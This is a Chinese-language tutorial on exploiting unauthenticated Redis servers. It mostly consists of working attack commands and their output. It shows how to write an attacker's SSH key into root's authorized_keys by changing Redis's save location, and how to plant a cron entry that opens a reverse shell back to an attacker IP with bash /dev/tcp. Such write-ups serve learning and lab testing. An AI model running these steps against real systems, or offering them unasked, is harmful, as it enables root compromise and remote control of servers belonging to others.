

# Redis 未授权访问

## SSH 公钥

Redis 是一款开源的、广受欢迎的数据结构工具，可用作内存分布式数据库、消息代理或缓存。由于它被设计为在受信任的环境中访问，因此不应暴露在互联网上。然而，一些 Redis 绑定到公共接口，甚至没有密码验证保护。


在特定条件下，如果Redis以root账户运行（甚至不是root账户），攻击者可以将SSH公钥文件写入root账户，直接通过SSH登录受害服务器。


此漏洞利用的简化流程如下：

- 登录到不受保护的 Redis
- 将其备份位置更改为 .ssh 目录 — 将 SSH 密钥写入新的备份位置
- 使用 SSH 密钥远程连接并登录目标服务器


运行以下命令生成 SSH 密钥（私钥和公钥）并将密码留空，以便稍后通过 SSH 连接到目标机器。

```
ssh-keygen -t rsa
```


将公钥复制到 `temp.txt` 中，需包含换行符（`\n\n<公钥>\n\n`），因为 redis 在保存到文件的时候会添加其他信息，否则可能被系统忽略.

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

- **`-x`**：将管道传递的输入（即 `temp.txt` 的内容）作为 `set s-key` 的值。

- **`set s-key`**：在 Redis 中设置键名为 `s-key`，值为 `temp.txt` 的内容。


```
cat tmp.txt | redis-cli -h 10.12.0.202 -x set s_key
```


查看 s_key 的信息

```
10.12.0.202:6379> get s_key 
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqr/JM+Ik/UdZuUA4hn5akgCcarFxPFIw3OlCGkPpOu7/cGl5l97UlGeODzojt7VAafennlNNG4AlAVBGIL2+OAzixrah6hA4qlvGtCbPSN2x8K8Yw1bQFyrmsIkCy+eDlEPPiMoBTWhmKUeoRVZ3iJ8Hm0MkkiqhUSo3TeFPepPF0HPHZdBPaG8uKASi2iQqndJg6Udt4rL+Xw+gM8U5zKQmVOWUBl9OW2ha4obIP8EWqdHymnobdSBDCPo7fBVPsz5+VRZ0o84B1HytU4qrjPer03GTDiKVYMzW07OhDKNWVBULM66EE3ftDhWyE+SpBBrOUSHKYpxsHBIxx6iETpQN+mSZQf/wR8QyxjOb0Y2JRLx+jDpyr3La+/2H0f021ZxePEpHG0vnJaDsJ/SnKAvrXMaf9RgkG3DNC1h4r9HOaHjNMNSmRdEQRzaleXEXSjetF1gZQh5VEsjYY1AZ4DOcCN+oXSpU/5G4AFxSimYFWHJ47KVmU6DKYKcXOvK8= root@xiaoshae\n\n\n\n"
```


查看文件路径和名称

```
10.12.0.202:6379> config get dir
1) "dir"
2) "/var/lib/redis"

10.12.0.202:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```


更改文件路径和名称

```
10.12.0.202:6379> config set dir /root/.ssh/
OK
10.12.0.202:6379> config set dbfilename authorized_keys 
OK
```


将内容保存到文件

```
10.12.0.202:6379> save
OK
```


尝试使用 ssh 连接到路径

```
ssh root@10.12.0.202 -i key

Last login: Fri Mar  7 04:25:54 2025 from 10.12.0.100
[root@localhost ~]# 
```


### 特殊情况

在某些操作系统中 ssh 默认开启了密钥验证，但是不存在 `/root/.ssh/`  文件夹，进行 config set dir /root/.ssh/ 是会提示目录不存在。

```
10.12.0.201:6379> config set dir /root/.ssh/
(error) ERR Changing directory: No such file or directory
```


存在 /root/.ssh/ 目录（已经 config set 成功），设置 dbfilename 为 authorized_keys ，但 /root/.ssh/authorized_keys/ 是一个文件夹。

在设置 dbfilename 时不会报错，但执行 save 命令时会报错。

```
10.12.0.201:6379> config set dir /root/.ssh/
OK
10.12.0.201:6379> config set dbfilename authorized_keys 
OK
10.12.0.201:6379> save
(error) ERR
```


## cron

Redis 本省不提供执行命令的方式，但是可以通过向 cron 计划任务文件中写入内容，从而间接的执行命令。


连接到远程 redis 服务

```
redis-cli -h 10.12.0.201
```


设置 dir 和 dbfilename

```
10.12.0.201:6379> config set dir /var/spool/cron/
OK
10.12.0.201:6379> config set dbfilename root
OK
```


设置计划任务内容

```
10.12.0.201:6379> set payload "\n\n* * * * * bash -i>& /dev/tcp/10.12.0.1/8085 0>&1\n\n"
OK
```


保存到文件

```
10.12.0.201:6379> save
OK
```


本地设置端口进行监听，等待反连



